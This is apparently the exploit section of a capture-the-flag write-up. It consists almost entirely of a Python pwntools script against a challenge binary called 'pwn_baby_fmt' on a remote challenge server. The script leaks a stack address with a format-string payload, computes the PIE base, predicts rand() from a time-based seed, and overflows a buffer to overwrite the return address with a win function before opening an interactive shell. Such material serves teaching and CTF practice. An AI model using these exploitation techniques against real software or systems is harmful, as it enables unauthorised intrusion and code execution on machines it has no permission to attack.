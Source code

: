 ## Full Exploit Code

```python
from pwn import *
import argparse
import subprocess
import ctypes
import time

context.log_level = 'DEBUG'
context.aslr = False

# start the process
# p = process('./pwn_baby_fmt')
p = remote("34.185.160.224", 31841)
libc = ELF('./libc-2.27.so')

# receive initial prompt
p.recvuntil(b"What's your town?\n")

# leak an address from main in order to get the main base
p.sendline(b'%10$p')
p.recvline()  # get first line
leaked = int(p.recvline().decode().lstrip("0x").rstrip("\n"), 16)
print("Leaked function address:", hex(leaked))

pie_base = leaked - 0x11c0
print("PIE base:", hex(pie_base))

# calculate the base and the win function address
win_function_address = pie_base + 0x133f
print("Win function address:", hex(win_function_address))

# Generate the random number
libc_lib = ctypes.CDLL(libc.path)

# Get current time and seed
current_time = int(time.time())
libc_lib.srand(current_time + 8)  # +8 for differences between local and remote time
                                   # adjust as needed, 8 seconds worked for me

# Generate random number
random_number = libc_lib.rand()
print("Random number:", random_number)

# construct the payload
buffer_fill = b'a' * 5
overwrite_to_return = b'a' * 28
payload = buffer_fill + p32(random_number) + overwrite_to_return + p64(win_function_address)

p.recvline()
p.sendline(payload)

# get shell
p.interactive()
```
